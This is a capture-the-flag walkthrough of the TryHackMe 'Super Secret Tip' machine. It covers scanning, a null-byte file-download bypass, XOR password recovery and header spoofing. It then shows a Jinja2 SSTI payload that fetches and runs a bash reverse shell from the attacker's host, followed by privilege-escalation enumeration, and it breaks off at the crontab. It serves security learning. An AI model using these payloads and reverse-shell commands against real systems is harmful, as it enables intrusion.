# Super Secret Tip - TryHackMe


We can start the machine with the classic network scan:
```bash
 rustscan --ulimit 5000 -t 2000 --range=1-65535 -a 10.10.198.19 -- -sC -sV
```
output:
```bash
PORT     STATE SERVICE REASON  VERSION
22/tcp   open  ssh     syn-ack OpenSSH 7.6p1 Ubuntu 4ubuntu0.7 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 3e:b8:18:ef:45:a8:df:59:bf:11:49:4b:1d:b6:b8:93 (RSA)
| ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQCm8EM7a8N6rH7GEW1mRVsOF6JokkXtMyWfSqOINFhEeatr5sCxnPjl42Y5rTVXZ0+LYHh+BRsnyEMsQ5nwXR8ac6Pu4bJOSa9hWj7Di0v4fgLGI4V14eEc9o1NJJ9bYJabr2odtrno0b0XiVsG8B5itnRJAOLRDLhjRMowbhPdXCBpRHXxeQ7P1wrGPdwyskb4NHkpu0F/U8UzBsl58+pPbVgGOlwdxLLhwgmxke1K5FXVq1S4eONElltA8wzv1yxYUo5gDsidHNlufsLI8QaA2DeeM0/DVC/T+uYYIJ0dDiQD6D/vKWsyMFfz0v9BYMVMCUEmvO+kG3byyG7ZiTHt
|   256 0b:cf:f9:94:06:85:97:f6:bd:cc:33:66:4e:26:ea:27 (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBFw0bTfMp/o+68OnA07grCXThkkXA2j484lrLhkP/jWYPFd9+F9AbJACOeDHQUiUR635QhjIYyDfpV8TmfhstTo=
|   256 60:ce:be:2d:1e:f0:18:00:30:70:ff:a2:66:d7:85:f7 (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIAq1UqpgXAgXQ91rTHu4IiV8DSvEReXSA+EVfVpE2/3i
7777/tcp open  cbt?    syn-ack
| fingerprint-strings: 
|   GetRequest: 
|     HTTP/1.1 200 OK
|     Server: Werkzeug/2.3.4 Python/3.11.0
|     Date: Tue, 05 Mar 2024 23:41:47 GMT
|     Content-Type: text/html; charset=utf-8
|     Content-Length: 5688
|     Connection: close
|     <!DOCTYPE html>
|     <html lang="en">
|     <head>
|     <meta charset="utf-8">
|     <meta http-equiv="X-UA-Compatible" content="IE=edge">
|     <meta name="viewport" content="width=device-width, initial-scale=1">
|     <meta name="description" content="SSTI is wonderful">
|     <meta name="author" content="Ayham Al-Ali">
|     <link rel="icon" href="favicon.ico">
|     <title>Super Secret TIp</title>
|     <!-- Bootstrap core CSS -->
|     <link href="/static/css/bootstrap.min.css" rel="stylesheet">
|     <!-- Custom styles for this template -->
|     <link href="/static/css/carousel.css" rel="stylesheet">
|     </head>
|     <!-- NAVBAR
|     ================================================== -->
|     <body>
|     <div class="navbar-wrapper">
|     <div class=
|   Socks5: 
|     <!DOCTYPE HTML>
|     <html lang="en">
|     <head>
|     <meta charset="utf-8">
|     <title>Error response</title>
|     </head>
|     <body>
|     <h1>Error response</h1>
|     <p>Error code: 400</p>
|     <p>Message: Bad request syntax ('
|     ').</p>
|     <p>Error code explanation: 400 - Bad request syntax or unsupported method.</p>
|     </body>
|_    </html>
1 service unrecognized despite returning data. If you know the service/version, please submit the following fingerprint at https://nmap.org/cgi-bin/submit.cgi?new-service :
SF-Port7777-TCP:V=7.94SVN%I=7%D=3/6%Time=65E7AD7C%P=x86_64-pc-linux-gnu%r(
SF:Socks5,18B,"<!DOCTYPE\x20HTML>\n<html\x20lang=\"en\">\n\x20\x20\x20\x20
SF:<head>\n\x20\x20\x20\x20\x20\x20\x20\x20<meta\x20charset=\"utf-8\">\n\x
SF:20\x20\x20\x20\x20\x20\x20\x20<title>Error\x20response</title>\n\x20\x2
SF:0\x20\x20</head>\n\x20\x20\x20\x20<body>\n\x20\x20\x20\x20\x20\x20\x20\
SF:x20<h1>Error\x20response</h1>\n\x20\x20\x20\x20\x20\x20\x20\x20<p>Error
SF:\x20code:\x20400</p>\n\x20\x20\x20\x20\x20\x20\x20\x20<p>Message:\x20Ba
SF:d\x20request\x20syntax\x20\('\\x05\\x04\\x00\\x01\\x02\\x80\\x05\\x01\\
SF:x00\\x03'\)\.</p>\n\x20\x20\x20\x20\x20\x20\x20\x20<p>Error\x20code\x20
SF:explanation:\x20400\x20-\x20Bad\x20request\x20syntax\x20or\x20unsupport
SF:ed\x20method\.</p>\n\x20\x20\x20\x20</body>\n</html>\n")%r(GetRequest,1
SF:6E7,"HTTP/1\.1\x20200\x20OK\r\nServer:\x20Werkzeug/2\.3\.4\x20Python/3\
SF:.11\.0\r\nDate:\x20Tue,\x2005\x20Mar\x202024\x2023:41:47\x20GMT\r\nCont
SF:ent-Type:\x20text/html;\x20charset=utf-8\r\nContent-Length:\x205688\r\n
SF:Connection:\x20close\r\n\r\n<!DOCTYPE\x20html>\n<html\x20lang=\"en\">\n
SF:\x20\x20<head>\n\x20\x20\x20\x20<meta\x20charset=\"utf-8\">\n\x20\x20\x
SF:20\x20<meta\x20http-equiv=\"X-UA-Compatible\"\x20content=\"IE=edge\">\n
SF:\x20\x20\x20\x20<meta\x20name=\"viewport\"\x20content=\"width=device-wi
SF:dth,\x20initial-scale=1\">\n\n\x20\x20\x20\x20<meta\x20name=\"descripti
SF:on\"\x20content=\"SSTI\x20is\x20wonderful\">\n\x20\x20\x20\x20<meta\x20
SF:name=\"author\"\x20content=\"Ayham\x20Al-Ali\">\n\x20\x20\x20\x20<link\
SF:x20rel=\"icon\"\x20href=\"favicon\.ico\">\n\n\x20\x20\x20\x20<title>Sup
SF:er\x20Secret\x20TIp</title>\n\n\x20\x20\x20\x20<!--\x20Bootstrap\x20cor
SF:e\x20CSS\x20-->\n\x20\x20\x20\x20<link\x20href=\"/static/css/bootstrap\
SF:.min\.css\"\x20rel=\"stylesheet\">\n\n\x20\x20\x20\x20<!--\x20Custom\x2
SF:0styles\x20for\x20this\x20template\x20-->\n\x20\x20\x20\x20<link\x20hre
SF:f=\"/static/css/carousel\.css\"\x20rel=\"stylesheet\">\n\x20\x20</head>
SF:\n<!--\x20NAVBAR\n==================================================\x2
SF:0-->\n\x20\x20<body>\n\x20\x20\x20\x20<div\x20class=\"navbar-wrapper\">
SF:\n\x20\x20\x20\x20\x20\x20<div\x20class=");
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```
The scan output is pretty massive due to nmap script engine processing the http response of the service on port 7777.<br>

We simply have 2 ports here:

- 22 ssh
- 7777 http

I normally never start with the ssh port since is a *generally* a secure protocol with no default credentials.<br>

# Port 7777/HTTP

We can start enumerating the port 7777/http by visiting on the browser:
	

	
in this picture we can see that is a simple html page, also the source code doesn't help us much.<br>
We can check the server programming language with either whatweb or wappalyzer:
```bash
whatweb http://10.10.198.19:7777/
```
output:
```bash
http://10.10.198.19:7777/ [200 OK] Bootstrap, Country[RESERVED][ZZ], HTML5, HTTPServer[Werkzeug/2.3.4 Python/3.11.0], IP[10.10.198.19], JQuery[1.11.2], Meta-Author[Ayham Al-Ali], Python[3.11.0], Script, Title[Super Secret TIp], Werkzeug[2.3.4], X-UA-Compatible[IE=edge]
```
Knowing is a python server it will probably use a route based indexing without file extension such php, but the extension `.py` and `.pyw` is worth trying:<br>
So i passed over directory enumeration:
```bash
feroxbuster -u http://10.10.198.19:7777/  -w /usr/share/wordlists/dirbuster/directory-list-lowercase-2.3-medium.txt -x txt,js,py,pyw
```
output:
```bash
200      GET      174l      383w     3133c http://10.10.198.19:7777/static/css/carousel.css
200      GET        7l      414w    35951c http://10.10.198.19:7777/static/js/bootstrap.min.js
200      GET      139l      815w    74054c http://10.10.198.19:7777/static/imgs/person.jpg
200      GET        5l     1428w   117305c http://10.10.198.19:7777/static/css/bootstrap.min.css
200      GET      141l      430w     5688c http://10.10.198.19:7777/
200      GET       80l      235w     2991c http://10.10.198.19:7777/cloud
200      GET       69l      159w     1957c http://10.10.198.19:7777/debug
```
Other than the crawled paths we also found 2 interesing paths:<br>

- `/debug`
- `/cloud`

The first one seems very dangerous but we need the password:
	

	
While the second one seems better to get more information, in fact it seems like a cloud file manager:
	

	
In fact seems that we can download files!<br>
But wait, some files seems to be blocked, while some are not:
```bash
curl -X POST 'http://10.10.198.19:7777/cloud' -d 'download=templates.py'
```
ouput:
```text
from flask import *
import hashlib
import os

```
The output seems incomplete, but maybe that's a case, let's try to fuzz some intersting config file for python webservers.<br>
I tried a bunch of file names like classic `/etc/passwd`, but doesn't seems to work.<br>
Then i started to search for flask server files, like app.py, main.py, server.py or names like that; eventally, with this request i managed to extract the flask webserver source code file:
```bash
curl -X POST 'http://10.10.198.19:7777/cloud' -d 'download=source.py'
```
output:
```python
from flask import *
import hashlib
import os
import ip # from .
import debugpassword # from .
import pwn

app = Flask(__name__)
app.secret_key = os.urandom(32)
password = str(open('supersecrettip.txt').readline().strip())

def illegal_chars_check(input):
    illegal = "'&;%"
    error = ""
    if any(char in illegal for char in input):
        error = "Illegal characters found!"
        return True, error
    else:
        return False, error

@app.route("/cloud", methods=["GET", "POST"]) 
def download():
    if request.method == "GET":
        return render_template('cloud.html')
    else:
        download = request.form['download']
        if download == 'source.py':
            return send_file('./source.py', as_attachment=True)
        if download[-4:] == '.txt':
            print('download: ' + download)
            return send_from_directory(app.root_path, download, as_attachment=True)
        else:
            return send_from_directory(app.root_path + "/cloud", download, as_attachment=True)
            # return render_template('cloud.html', msg="Network error occurred")

@app.route("/debug", methods=["GET"]) 
def debug():
    debug = request.args.get('debug')
    user_password = request.args.get('password')
    
    if not user_password or not debug:
        return render_template("debug.html")
    result, error = illegal_chars_check(debug)
    if result is True:
        return render_template("debug.html", error=error)

    # I am not very eXperienced with encryptiOns, so heRe you go!
    encrypted_pass = str(debugpassword.get_encrypted(user_password))
    if encrypted_pass != password:
        return render_template("debug.html", error="Wrong password.")
    
    
    session['debug'] = debug
    session['password'] = encrypted_pass
        
    return render_template("debug.html", result="Debug statement executed.")

@app.route("/debugresult", methods=["GET"]) 
def debugResult():
    if not ip.checkIP(request):
        return abort(401, "Everything made in home, we don't like intruders.")
    
    if not session:
        return render_template("debugresult.html")
    
    debug = session.get('debug')
    result, error = illegal_chars_check(debug)
    if result is True:
        return render_template("debugresult.html", error=error)
    user_password = session.get('password')
    
    if not debug and not user_password:
        return render_template("debugresult.html")
        
    # return render_template("debugresult.html", debug=debug, success=True)
    
    # TESTING -- DON'T FORGET TO REMOVE FOR SECURITY REASONS
    template = open('./templates/debugresult.html').read()
    return render_template_string(template.replace('DEBUG_HERE', debug), success=True, error="")

@app.route("/", methods=["GET"])
def index():
    return render_template('index.html')

if __name__ == "__main__":
    app.run(host="0.0.0.0", port=7777, debug=False)
```
We have all the routes, so we know that if we want to get files out of that we need to bypass the extension filter:
```python
<SNIP>
if download == 'source.py':
            return send_file('./source.py', as_attachment=True)
        if download[-4:] == '.txt':
            print('download: ' + download)
            return send_from_directory(app.root_path, download, as_attachment=True)
        else:
            return send_from_directory(app.root_path + "/cloud", download, as_attachment=True)
            # return render_template('cloud.html', msg="Network error occurred")
<SNIP>
```
in order to bypass the extension filter we can try the [hacktriks article](https://book.hacktricks.xyz/pentesting-web/file-inclusion#null-byte-00), in fact with a null byte the `if download[-4:] == '.txt':` should be skipped, let's try:
```bash
curl -X POST 'http://10.10.198.19:7777/cloud' -d 'download=source.py%00.txt'
```
We got the same result!! meaning the filter is bypassed.<br>

Now we need to understand better what the code is actually doing, in fact we just need to append .txt at the end of the string so the if evaluate to True and then when the string got concatenated what comes after the `%00` null byte gets eliminated<br>

Now that we understood this we can download the file where the password for the debug console is stored:
```python
from flask import *
import hashlib
import os
import ip # from .
import debugpassword # from .
import pwn

app = Flask(__name__)
app.secret_key = os.urandom(32)
password = str(open('supersecrettip.txt').readline().strip())

<..SNIP..>

@app.route("/debug", methods=["GET"]) 
def debug():
    debug = request.args.get('debug')
    user_password = request.args.get('password')
    
    if not user_password or not debug:
        return render_template("debug.html")
    result, error = illegal_chars_check(debug)
    if result is True:
        return render_template("debug.html", error=error)

    # I am not very eXperienced with encryptiOns, so heRe you go!
    encrypted_pass = str(debugpassword.get_encrypted(user_password)) 
    if encrypted_pass != password:
        return render_template("debug.html", error="Wrong password.")
    
    
    session['debug'] = debug
    session['password'] = encrypted_pass
        
    return render_template("debug.html", result="Debug statement executed.")
<SNIP>
```
From this function we can see that it takes a password and check it against the encrypted password.<br>
The hardcoded password is inside the `supersecrettip.txt` file, so we can go haead and download it:
```bash
curl -X POST 'http://10.10.198.19:7777/cloud' -d 'download=supersecrettip.txt'
```
The output is in bytes:
```python
b' \x00\x00\x00\x00%\x1c\r\x03\x18\x06\x1e'
```
When we input the password, the server is going to encrypt it and check it against that string above, but how.<br>
To understand that we can take a look at the `debugpassword` class that it is imported from the path `./`.<br>
The python files that are imported can be retrived by adding the `.py` extension at the end, let's merge it with our previous bypass:
```bash
curl -X POST 'http://10.10.198.19:7777/cloud' -d 'download=debugpassword.py%00.txt'
```
output:
```python
import pwn

def get_encrypted(passwd):
    return pwn.xor(bytes(passwd, 'utf-8'), b'ayham')
```
As was pretty obvious from the camel case letters the script is using very weak encryption: a simple XOR with a short repeated string as key.<br>
We can decrypt the actual password with a simple python script:
```python
import pwn

def get_encrypted(passwd):
    return pwn.xor(passwd, b'ayham')


enc_password = b' \x00\x00\x00\x00%\x1c\r\x03\x18\x06\x1e'
password = get_encrypted(enc_password).decode()
print(f'[+]Password is: {password}')
```
When we run it we got this password:
```bash
[+]Password is: Ayh[REDACTED]g
```
Since the debug panel it's made in flask we can try some common exploits against this technology.<br>
We can also read from [this article](https://exploit-notes.hdks.org/exploit/web/framework/python/flask-jinja2-pentesting/) that the most common vulnerability is SSTI(Server-Side Template Injection).<br>
We can try a basic SSTI `{{7*7}}` and check for some output:
    

    
The output is not directly seen in the `/debug` page; but instead, as we can see in the source.py script, in the `/debugresult`.<br>
So we can try to visit that path:
    

    
As we could imagine from the script we are not passing this first `ip check`:
```python
import ip # from .

<..SNIP..>

@app.route("/debugresult", methods=["GET"]) 
def debugResult():
    if not ip.checkIP(request):
        return abort(401, "Everything made in home, we don't like intruders.")
```
But since also the ip class is imported from a file in the path, asthe comment sudgest, we can download it with the same trick as before:
```bash
curl -X POST 'http://10.10.198.19:7777/cloud' -d 'download=ip.py%00.txt'
```
output:
```python
host_ip = "127.0.0.1"
def checkIP(req):
    try:
        return req.headers.getlist("X-Forwarded-For")[0] == host_ip
    except:
        return req.remote_addr == host_ip
```
The check is pretty easy to bypass in fact we just need to set the HTTP `X-Forwarded-For` header to _127.0.0.1_:
    

    
Fantastic!<br>

# ayham

Now to make actual requests we need the cookie that the `/debug` set to us, so we can first take the previous request:
    

    
We can now make the request; We have SSTI!
    

    
Since we are sure that the application is vulnerable we can craft something a bit more usefull like a reverse shell.<br>
To start i launch a listener on my attacker machine (i'll use pwncat-cs):
```bash
echo 'bash -i >& /dev/tcp/10.8.79.118/6666 0>&1' > a
python3 -m http.server 80 &
pwncat-cs -lp 6666
```
Then we can send the payload to `/debug` path and take the cookie (i wrote in burp and copied as curl command):
```bash
curl -i -k -X $'GET' -H $'Host: 10.10.198.19:7777' -H $'Referer: http://10.10.198.19:7777/debug' -H $'Accept-Encoding: gzip, deflate, br' -H $'Connection: close' $'http://10.10.198.19:7777/debug?debug=%7b%7b%20self._TemplateReference__context.cycler.__init__.__globals__.os.popen(%22curl%20http%3a%2f%2f10.8.79.118%2fa%20%7c%20bash%22).read()%20%7d%7d&password=A[REDACTED]g' -v
```
output:
```bash
HTTP/1.1 200 OK
< Server: Werkzeug/2.3.4 Python/3.11.0
Server: Werkzeug/2.3.4 Python/3.11.0
< Date: Wed, 06 Mar 2024 19:05:44 GMT
Date: Wed, 06 Mar 2024 19:05:44 GMT
< Content-Type: text/html; charset=utf-8
Content-Type: text/html; charset=utf-8
< Content-Length: 2024
Content-Length: 2024
< Vary: Cookie
Vary: Cookie
< Set-Cookie: session=..eJxdzksKwyAUheGtiFCSQLmJFNo0yygdCqLm5gFWRQ1NSbP3xmknP9-ZnY32qJaRdnTbSEQzgHjiyxuZ8IEDBrQahdDOJlwT6I82GECI2c5JiAOjcUqaeNhF8M6jLTnVSzBkSsl3dc0aaOF2B8baWpIvUTJOnFYQUPZlRfadnqmXMb5d6I8XqiCcr03zl9NRpjkPeV3yaLOuWVjQ_QcOH0Js.ZejNug.nG0knyDW8vqsCFm75v6CJCuPNGM; HttpOnly; Path=/
```
Now that we have the cookie we can send the render request to trigger the server template:
    

    

Now we are inside the machine:
    

    
Now that we are inside the machine we can start to look around...<br>

I checked around for some interesting paths like `/opt` or `/var` but from the file `/.dockerenv` we know that we are inside a docker container, so i'll expect the machine to be pretty restricted.<br>

In fact we don't even have sudo!<br>
Then i started to look around for other users on the box, and i found:
```bash
ls -la /home/
```
output:
```bash
total 24
drwxr-xr-x 1 root  root  4096 Jun 24  2023 .
drwxr-xr-x 1 root  root  4096 Jun 24  2023 ..
drwxr-xr-x 1 F30s  F30s  4096 Jun 24  2023 F30s
drwxr-xr-x 1 ayham ayham 4096 Mar  8 22:04 ayham
```

# F30s

There is another user `F30s` and we can also read and access his home directory:
```bash
ls -la /home/F30s/
```
output:
```bash
total 36
drwxr-xr-x 1 F30s F30s 4096 Jun 24  2023 .
drwxr-xr-x 1 root root 4096 Jun 24  2023 ..
-rw-r--r-- 1 F30s F30s  220 Mar 27  2022 .bash_logout
-rw-r--r-- 1 F30s F30s 3526 Mar 27  2022 .bashrc
-rw-r--rw- 1 F30s F30s  852 Mar  8 22:17 .profile
-rw-r--r-- 1 root root   17 May 19  2023 health_check
-rw-r----- 1 F30s F30s   38 May 22  2023 site_check
```
We can see something very odd: the file `/home/F30s/.profile` is word-writable.<br>
That's very strange because, as ChatGPT says: _It is executed by the command shell (such as Bash) when a user logs in interactively._<br>
This means when the user logs inside the system that script get executed...<br>
But we need some way to trigger that, after some more enumeration in fact i found this crontab:
```bash
cat /etc/crontab
```
output:
```bash
17 *    * * *   root    cd / && run-parts --report /etc/cron.hourly
25 6    * * *   root    test -x /usr/sbin/anacron || { cd / && run-parts --report /etc/cron.daily; }
47 6    * * 7   root    test -x /usr/sbin/anacron || { cd / && run-parts --report /etc/cron.weekly; }
